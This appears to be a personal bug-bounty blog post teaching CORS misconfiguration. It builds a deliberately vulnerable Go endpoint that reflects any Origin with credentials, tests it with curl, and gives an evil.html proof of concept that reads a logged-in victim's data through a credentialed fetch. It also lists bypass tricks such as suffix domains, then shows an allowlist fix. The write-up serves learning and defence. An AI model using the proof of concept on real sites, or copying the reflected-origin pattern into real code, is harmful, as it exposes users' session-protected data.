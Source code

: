 +++
title = 'Are you from the Same Origin?'
date = 2025-06-01T12:26:43-04:00
draft = false
toc = false
categories = ['bug bounty']
tags = ['cors', 'client-side', 'misconfiguration']
series = ['']
+++

> Recently, when I debugged a web app, I had to add my own test domain to a CORS allowed list there. Then I remembered having seen a CORS vulnerability report before and decided to delve deeper into this topic.

### Create a Simple Web App with CORS Misconfiguration

Essentially, we require a web application with a straightforward login feature and a data endpoint. With misconfigured CORS, we should be able to see the sensitive data from another origin.

> Check out the code repo: https://github.com/ych3r/vuln-apps/tree/main/cors

Because we have a session check, you can't access the sensitive data without login.
```go
cookie, err := r.Cookie("session")
if err != nil || cookie.Value != "valid-session" {
    http.Error(w, "Unauthorized", http.StatusUnauthorized)
    return
}
```
![cors1](/cors/cors-1.png)

But once you login, you will get a session cookie (stored in your browser).
![cors2](/cors/cors-2.png)

Try again and you can see the sensitive data.
![cors3](/cors/cors-3.png)

Now we misconfigure the CORS.
```go
origin := r.Header.Get("Origin")
if origin != "" {
    w.Header().Set("Access-Control-Allow-Origin", origin)
    w.Header().Set("Access-Control-Allow-Credentials", "true")
}
```
This will allow all the origin to access it.

### Attack it

First, we make sure this vulnerability exists. Of course, we test with our own session, and bear with me, I'm too lazy to create another profile. Let's just imagine this sensitive data is not the victim's data.

```sh
╰─$ curl -i http://localhost:8080/api/data -H "Origin: xx.com" -H "Cookie: session=valid-session"
HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: xx.com
Content-Type: application/json
Date: Sat, 07 Jun 2025 17:29:12 GMT
Content-Length: 33

{"msg":"you should not see this"}
```

Great, this website accepts any domain we put in. Then, we create a `evil.html` that fetch data with the session cookie in the browser using `include`.
```html
<!DOCTYPE html>
<html>
    <body>
        <script>
            // when fetching a url, the browser automatically sets the Origin header.
            fetch("http://localhost:8080/api/data", {
                credentials: "include"
            }).then(res => res.text())
                .then(data => {
                    alert("data:\n" + data)
                });
        </script>
    </body>
</html>
```
Start a server: `python -m http.server` and open it in the same browser. We see the secret data.

![cors4](/cors/cors-4.png)

> What does it mean?

As long as we let the victim open `evil.html`, and they happened to have a live session on the service, we will be able to bypass the access control and read sensitive data using their session cookie.

We're not going to let it pop up obviously, but we can let it secretly send the data to our server.

### Theory Part

- What is SOP and why do we use it?
  - **Same-origin policy** doesn't allow website to interact with other domains. This is used to prevent malicious cross-domain interactions, like stealing private data.
  - SOP is implemented in the browser's internal engine.
- What is CORS and why do we use it?
  - **Cross-origin resource sharing** is the relaxation of the SOP. Because many websites do need cross-origin access to subdomains or third-party sites.
- What are the attack vectors?
  - **Wildcard in ACAO**: like the example above, it allows any origin to access data.
  - **Errors parsing Origin headers**: some domain on whitelist are using regular expressions, attackers can add prefix or suffix to it, e.g., `normal.com` -> `notnormal.com` or `normal.com` -> `normal.com.evil.net`
  - **null origin value**: the header could be "null". Use sandboxed `iframe` to test it.
  - **XSS via trust relationships**: if the trusted origin is vulnerable to XSS, attacker could still get sensitive data through it.
  - **Breaking TLS**: if 'http' is in the whitelist, attacker could use MitM to control that http site, and then exploit the CORS.
  - **Intranet access**: if there's no `Access-Control-Allow-Credentials: true`, then attacker can only see unauthenticated content (what's the point then). But the victim's browser can be used as a proxy to access internal sites.

### Make it Safe

Because it’s a configuration problem, the solution is fairly easy. We set up an allowed origin list, then other domains won't be able to fetch data.

```go
origin := r.Header.Get("Origin")
allowedOrigins := map[string]bool{
    "https://liuyuchen.dev": true,
}
if allowedOrigins[origin] {
    w.Header().Set("Access-Control-Allow-Origin", origin)
    w.Header().Set("Access-Control-Allow-Credentials", "true")
}
```
![cors5](/cors/cors-5.png)

---

ref:
- Cross-origin resource sharing (CORS) - https://portswigger.net/web-security/cors